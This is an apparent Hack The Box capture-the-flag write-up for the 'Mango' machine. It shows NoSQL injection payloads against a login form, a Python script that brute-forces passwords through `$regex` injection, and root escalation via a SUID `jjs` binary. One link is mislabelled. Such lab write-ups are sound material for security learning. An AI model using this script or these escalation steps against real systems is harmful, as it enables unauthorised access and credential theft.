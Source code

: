 ```yaml
---
layout: single
title: Mango - Hack The Box
excerpt: "Mango is a medium box and funny for beginners with a NoSQSL injection in the login page that allows to retrieve the 'username' and the 'password' with a basic python script. Once the credentials are obtained, it is possible to ssh into the box. For privilege escalation, it is possible to look for SUID. It has been used the `jjs`, which is a Java tool that allows to run Java commands, and because of the SUID, the commads run as root (So, it is possible to run a root bash console)."

date: 2022-11-30
classes: wide
header:
  teaser: /assets/images/htb-mango/mango_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - NoSqlInjection
  - SUID
---
```

![](/assets/images/htb-mango/mango_logo.png)

Mango is a medium box and funny for beginners with a NoSQSL injection in the login page that allows to retrieve the 'username' and the 'password' with a basic python script. Once the credentials are obtained, it is possible to ssh into the box. For privilege escalation, it is possible to look for SUID. It has been used the `jjs`, which is a Java tool that allows to run Java commands, and because of the SUID, the commads run as root (So, it is possible to run a root bash console).

## Enumeration
Using `nmap` it is possible to list three open TCP ports, SSH (22), HTTP (80), and HTTPS (443).
Based on the `OpenSSH` and `Apache` versions, the target machine looks like Ubuntu 18.04, Bionic Beaver.
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](/assets/images/htb-mango/ssl.png)

Port 443 is the port number for the secure version of the `Hypertext Transfer Protocol` used to access secure web pages. As port 443 is open, it is possible to use the `openssl s_client -connect 10.10.10.162:443` to enumerate subdomains, in this case:
- `mango.htb`
- `staging-order.mango.htb`

There is a login page in `staging-order.mango.htb`, one of which can be used to redirect the form request to our `Burp Suite` proxy to examine the ongoing request to the server.

![](/assets/images/htb-mango/loginhtb.png)

It is quite logical going through testing some MangoDB injections since the name of the box looks like a hint. After trying some basic SQL injections, what makes sense is trying some NoSQL injections. [PayloadsAllTheThings](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html) has a good list of test injections.

![](/assets/images/htb-mango/Burp_Suite.png)

When sending a request similar to `username[$ne]=0xdf&password[$ne]=0xdf&login=login` in the form, the server returns a 302 redirect to /home.php. This means that could be possible to bruteforce the user and password.

With a python script similar to this one, it is possible to get the user and the password:
- user one: admin
- user two: mango

```python
#!/usr/bin/python3

from pwn import *
import signal, requests, pdb, signal, sys, time, re

def def_handler(sig, frame):
    print("\n\n[!] Saliendo... \n")
    sys.exit(1)

# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://staging-order.mango.htb/"
characters = string.printable[:-6]
def makeNOSQLInjection():

    password = ""
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando Ataque de Fuerza Bruta")
    time.sleep(2)
    p2 = log.progress("Password")
    while True:
        for character in characters:

            post_data = {
                    'username':'mango',
                    'password[$regex]':'^%s%s.*' %(password,re.escape(character)),
                    'login':'login'
                    }
            p1.status("%s" % post_data)

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
      makeNOSQLInjection()
```

## Reverse shell
With the 'mango' user and password, it is possible to ssh into the host machine (remember that the port 22 is opened).
Once the ssh is established, with a simple `su admin` command it is possible to change to the 'admin' and see the first flag (user.txt)

## Priviledge escalation

One of the first things to do should be looking for SUID privilege with the typical command `find / -user root -perm -4000 2>/dev/null -ls`.
It is possible to see the `jjs`, which is owned by the root but in the admin group. `jjs` is a Java tool that allows to run Java commands, and because of SUID, they run as root.
```
admin@mango:/home/admin$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
0
admin@mango:/home/admin$ /bin/bash -p
bash-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
bash-4.4# whoami
root
```
